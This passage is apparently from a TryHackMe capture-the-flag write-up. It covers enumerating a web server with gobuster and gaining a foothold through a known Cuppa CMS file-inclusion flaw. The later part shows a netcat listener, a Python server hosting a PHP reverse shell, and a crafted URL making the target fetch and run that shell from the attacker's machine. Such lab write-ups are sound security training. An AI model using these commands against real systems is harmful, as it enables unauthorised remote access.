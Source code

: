 ```
<center><br />
<img src='miles.jpg'>
<h2>Miles Dyson Personal Page</h2><p>Dr. Miles Bennett Dyson was the original inventor of the neural-net processor which would lead to the development of Skynet,<br /> a computer A.I. intended to control electronically linked weapons and defend the United States.</p>
</center>
</body>
</html>
```
It didnt look like anything special was on the first page of the supposed CMS. I ran gobuster against the site and found some more interesting directories to investigate. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ gobuster -u http://[REDACTED]/[REDACTED]/ -w /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/common.txt 

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://[REDACTED]/[REDACTED]/
[+] Threads      : 10
[+] Wordlist     : /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/02/24 14:15:01 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/administrator (Status: 301)
/index.html (Status: 200)
=====================================================
2022/02/24 14:15:50 Finished
=====================================================
```
When I navigated to the /administrator page, I was presented with a login screen for Cuppa CMS. I did some googling to find that there is a remote/local file inclusion vulnerability with Cuppa CMS (https://www.exploit-db.com/exploits/25971) that I could use. 
# Initial Access
With the LFI/RFI vulnerability, I set up a php reverse shell using pentest monkey (https://pentestmonkey.net/tools/web-shells/php-reverse-shell), changing the IP and port as needed. Then, I started a python http server on my local machine in the directory where the reverse shell was stored.
```
ajread@aj-ubuntu:~/resources/revshells$ sudo python -m http.server 80
```
I made sure to set up a netcat listener on my local machine. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
Then, I navigated to the LFI/RFI vulnerable location for the CMS and input the location of my local machine, which executed the reverse shell. 
```
http://[REDACTED]/[REDACTED]/administrator/alerts/alertConfigField.php?urlConfig=http://[REDACTED]:80/php-reverse-shell.php
```
And, it worked! 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [REDACTED] 33456
```